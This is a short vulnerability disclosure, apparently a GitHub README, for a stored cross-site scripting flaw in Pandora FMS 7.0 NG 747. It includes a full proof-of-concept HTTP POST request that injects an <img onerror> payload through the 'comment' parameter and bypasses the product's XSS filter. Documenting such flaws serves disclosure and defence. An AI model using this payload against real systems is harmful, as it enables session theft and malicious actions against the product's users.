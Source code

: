 # Pandora-FMS-7.0-NG-747-Stored-XSS
A stored cross-site scripting (XSS) in Pandora FMS 7.0 NG 747 can result in an attacker performing malicious actions to users who open a maliciously crafted link or third-party web page. In addition, the existing XSS filter can be bypassed with the "<img" tag.

# PoC
To exploit vulnerability, someone could use a POST request to '/pandora_console/ajax.php' by manipulating 'comment' parameter in the request body to impact users who open a maliciously crafted link or third-party web page.

```
POST /pandora_console/ajax.php HTTP/1.1
Host: [HOST]
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 119
DNT: 1
Connection: close
Cookie: PHPSESSID=a55pr5b4gff5ea1h0pms4csrk5

page=include/ajax/events&add_comment=1&event_id=7&comment=<img src=x onerror="alert(document.cookie)">&meta=0&history=0
```

![](https://emreovunc.com/blog/en/Pandora-FMS-7.0-NG-747-Stored-XSS-01.png)

![](https://emreovunc.com/blog/en/Pandora-FMS-7.0-NG-747-Stored-XSS-02.png)
